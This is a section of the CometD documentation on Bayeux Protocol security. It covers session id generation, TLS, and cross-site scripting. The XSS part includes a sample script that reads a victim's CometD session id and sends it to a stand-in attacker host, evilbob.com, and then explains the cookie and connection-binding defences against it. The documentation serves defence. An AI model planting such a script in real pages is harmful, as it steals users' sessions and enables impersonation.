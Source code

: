 
[[_security]]
== Security

This session discusses the security features of the Bayeux Protocol and the
relationship with common attacks and how you can configure CometD to tighten
your application.

=== Security of the session id

The Bayeux Protocol identifies a particular session (formerly known as "client")
via a session id token, carried in Bayeux messages by the `clientId` field.
The `clientId` field value (i.e. the session id) is generated by the server
when the client sends the handshake request message, and sent back to the
client in the handshake response message (see
<<_bayeux_meta_handshake,the Bayeux Protocol handshake>>).
The client then sends the `clientId` field in every subsequent message to the
server, until disconnection.

The session id is generated using a strong random number generator, and as
such it is not guessable by an evil third party.
An evil user that knows its own session id cannot guess the session id of
another user by just looking at its own session id.

While the non-guessability of the session id is a good starting point, it
is typically not enough, so read on.

=== Security against man-in-the-middle attacks

An evil user may be in the position to observe Bayeux Protocol traffic, as
it is the case for a man-in-the-middle.

The typical solution in this case is to encrypt the traffic between the
client and the server using TLS.
In this way, all the traffic between the client and the server is
encrypted end-to-end and a man-in-the-middle cannot look or otherwise retrieve
someone else's session id.

=== Security against cross-site scripting (XSS) attacks

A https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29[cross-site scripting attack]
is a particularly important vulnerability of web applications.

A typical example of XSS is the following:

Evil user Bob connects to a chat service that uses CometD.
There, he finds Alice, another user.
Bob sends an evil chat message text to Alice where the text is the following:

====
[source,html]
----
<script type="text/javascript">
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://evilbob.com?stolen=" + $.cometd.getClientId());
xhr.send();
</script>
----
====

As you can see, the script accesses the CometD's session id (via
`$.cometd.getClientId()`).

[NOTE]
====
Removing the method `getClientId()` would not solve the issue, because
the evil script could access the session id in other ways.
For example, by registering an extension, or by otherwise watching
Bayeux messages that come and go for the normal functioning of the
application, or by quickly disconnecting and reconnecting the session, etc.
====

Bob sends that evil message, which reaches the CometD server and gets routed
to Alice. When it arrives on Alice's browser, that script may be run by
the browser if the application is XSS vulnerable.

If the script runs, Bob would be able to steal Alice's session id, send
it to his server `evilbob.com`, where Bob would be able to access it.

[IMPORTANT]
====
If your web application is XSS vulnerable, an attacker can do
a lot more damage than just stealing a CometD session id, so it is of
paramount importance that your web application sanitizes data received
from unknown sources such as other users chat messages.
====

If Bob has stolen Alice's session id, he could craft a Bayeux message
with Alice's session id and send it from his computer, and thereby could
impersonate Alice.

CometD protects from impersonations due to stolen session ids in different
ways, depending on the type of transport used to carry Bayeux messages.

For transports based on HTTP (`long-polling` and `callback-polling`),
CometD sends a HTTP session cookie, marked as `HttpOnly`,
called `BAYEUX_SESSION` (see <<_java_server_configuration>>).
The CometD implementation, on the server, maps this cookie to a legit
session id during the processing of the handshake request message.
For every subsequent message, the browser will send the `BAYEUX_SESSION`
cookie to the server and the CometD implementation will
retrieve the session id from the cookie, rather than from the message
(where it could have been altered).

Bob could craft a message with Alice's session id, but the `BAYEUX_SESSION`
cookie that he will send along with the tampered message will be his,
not Alice's. The CometD implementation will detect this attack and disconnect
Bob. If the cookie is missing, CometD will ask Bob to re-handshake.

For transports based on WebSocket (`websocket`), CometD trusts the particular
connection that has been established during the handshake.
The session id is associated to that connection and when a WebSocket message
arrives on that connection, CometD retrieves the session id from the
association with the connection, rather than from the message (where it
could have been altered).

When the connection is closed, for example for a network failure, CometD
attempts to open another connection.
If the reconnection happens within a short period of time (typically less than
the `maxInterval` configured on the server), then CometD will try to send
messages on the new connection without re-handshaking, but since it's a new
connection that did not process a handshake message, it will not have a
session id associated.

At this point, CometD could ask the client to re-handshake (which involves
some round-trips to be completed, possibly slowing further down the
communication in case of faulty networks), or it could trust the session
id from the message (which would yield faster reconnections, albeit less
secure if the session id is stolen).
This is controlled by the `requireHandshakePerConnection` parameter, see
<<_java_server_configuration>>.
